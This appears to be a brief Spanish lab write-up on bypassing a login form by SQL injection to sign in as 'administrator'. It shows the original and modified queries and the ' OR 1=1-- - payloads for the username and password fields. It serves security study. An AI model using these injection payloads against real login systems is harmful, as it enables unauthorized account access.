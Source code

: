 Objetivo: Logearnos como el usuario `administrator`

Consulta Original: `SELECT * FROM users WHERE username='Administrator' AND password=''`

Consulta Modificada: `SELECT * FROM users WHERE username='Administrator' AND password='' OR 1=1-- -'`

Consulta Modificada (Alternativa): `SELECT * FROM users WHERE username='Administrator' OR 1=1-- -' AND password=''`

En el campo password debemos colocar `' OR 1=1-- -` o en el campo de usuario colocar `administrator' OR 1=1-- -` de manera que la qwety sera verdadera.

![[Pasted image 20250717131622.png]]

Y logramos logearnos como el usuario `administrator`

![[Pasted image 20250717131733.png]]

